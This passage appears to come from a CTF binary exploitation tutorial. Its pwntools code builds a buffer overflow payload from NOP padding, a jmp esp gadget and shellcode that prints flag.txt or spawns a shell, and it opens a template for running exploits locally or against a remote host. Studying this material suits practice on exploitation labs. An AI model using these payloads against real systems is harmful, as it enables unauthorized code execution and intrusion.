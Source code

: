       # Print flag
      shellcode = asm(shellcraft.cat('flag.txt'))
      # shellcode = asm(shellcraft.sh())
      # Exit
      shellcode += asm(shellcraft.exit())
      
      # Build payload
      payload = flat(
          asm('nop') * padding,
          jmp_esp,
          asm('nop') * 16,
          shellcode
      )
      
      # Write payload to file
      write("payload", payload)
      
      # Exploit
      io.sendlineafter(b':', payload)
      
      # Get flag/shell
      io.interactive()
     ```

### 5. Use `msfvenom` to craft exploit
      ```
      from pwn import *
      
      # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      # Specify GDB script here (breakpoints etc)
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      